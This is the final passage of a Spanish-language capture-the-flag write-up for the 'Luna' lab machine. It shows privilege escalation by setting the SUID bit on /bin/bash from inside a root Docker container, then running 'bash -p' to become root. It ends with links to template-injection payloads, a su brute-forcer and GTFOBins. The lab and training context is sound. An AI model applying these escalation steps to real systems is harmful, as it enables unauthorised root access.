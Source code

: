Ejecuta el mismo comando para crear el contenedor de nuevo y dale los **permisos SUID** a la **Bash**. Cuando lo hagas, sal del contenedor:
```bash
root@e5ad18c4c40b:/# chmod u+s /bin/bash
root@e5ad18c4c40b:/# exit
exit
```

Vuelve a revisar los permisos de la **Bash**:
```bash
jose@TheHackersLabs-Luna:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1446024 mar 31  2024 /bin/bash
```
Ya tiene los **permisos SUID**.

Usemos la **Bash** con privilegios:
```bash
jose@TheHackersLabs-Luna:~$ bash -p
bash-5.2# whoami
root
```
Somos **Root**.

Busquemos la última flag:
```bash
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://exploit-notes.hdks.org/exploit/web/framework/flask-jinja2/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2
* https://github.com/carlospolop/su-bruteforce
* https://gtfobins.github.io/gtfobins/docker/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>
